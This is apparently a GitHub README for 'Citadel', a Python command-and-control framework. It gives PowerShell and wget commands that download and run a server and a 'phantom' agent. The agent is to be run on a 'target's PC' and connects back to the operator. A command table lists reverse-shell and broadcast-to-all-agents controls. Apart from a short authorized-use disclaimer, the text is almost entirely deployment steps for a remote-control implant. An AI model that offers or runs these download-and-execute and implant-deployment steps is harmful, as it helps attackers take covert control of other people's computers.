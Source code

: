 ![Citadel Screenshot](/images/citadel_screenshot.png)

# Citadel C2 Framework

Citadel is a C2 Framework built in python for purely educational purpose. It litteraly just doesn't do anything other than create connection between two computers.

## Quick Start

Run this on ur PC:

```Powershell
Invoke-WebRequest -Uri "https://github.com/johntad110/citadel-c2/releases/download/v12-1-windows-latest/citadel_windows-latest.exe" -OutFile "citadel_server.exe"; Start-Process -FilePath ".\citadel_server.exe"
```

And then run this on your target's PC (replace `<Citadel_Server_IP>` with ur IP):

```Powershell
Invoke-WebRequest -Uri "https://github.com/johntad110/citadel-c2/releases/download/v12-1-windows-latest/phantom_windows-latest.exe" -OutFile "phantom_agent.exe"; Start-Process -FilePath ".\phantom_agent.exe" -ArgumentList "--c2-host", "<Citadel_Server_IP>"
```

---

If you want to install from code
### Server Installation

```bash
# Clone repository
git clone https://github.com/johntad110/citadel-c2.git
cd citadel-c2

# Install dependencies
pip install -r requirements.txt

# Start server
python main.py --host 0.0.0.0 --port 8886
```

### Agent Deployment

```powershell
Invoke-WebRequest -Uri "https://github.com/johntad110/citadel-c2/releases/latest/download/phantom_windows.exe" -OutFile phantom.exe
./phantom.exe --c2-host YOUR_SERVER_IP --c2-port 8886
```

```bash
# Linux/macOS
wget https://github.com/johntad110/citadel-c2/releases/latest/download/phantom_linux -O phantom
chmod +x phantom
./phantom --c2-host YOUR_SERVER_IP --c2-port 8886
```

## Architecture

![Citadel C2 Archtecture](/images/citadel_c2_archtecture.svg)

## Command Reference

### Server Commands

| Command           | Description                |
| ----------------- | -------------------------- |
| `list`            | Show connected agents      |
| `interact <ID>`   | Control specific agent     |
| `shell <ID>`      | Start reverse shell        |
| `broadcast <cmd>` | Send command to all agents |

### Agent Commands

| Flag        | Description                            |
| ----------- | -------------------------------------- |
| `--c2-host` | Server IP/hostname (Required)          |
| `--c2-port` | Server port (Default: 8886)            |
| `--retry`   | Connection retry attempts (Default: 5) |

## Building From Source

### Requirements

- Python 3.9+
- PyInstaller
- Colorama

```bash
# Build server
pyinstaller --onefile main.py --name citadel_server --collect-all colorama

# Build agent
pyinstaller --onefile citadel/agent/phantom.py --name phantom --collect-all citadel.protocol
```

## Security Considerations

⚠️ **Warning:** This tool is for authorized security testing and educational purposes only.

- Always use on isolated networks
- Enable firewall rules to restrict access

## License

Apache License 2.0 - See [LICENSE](LICENSE)
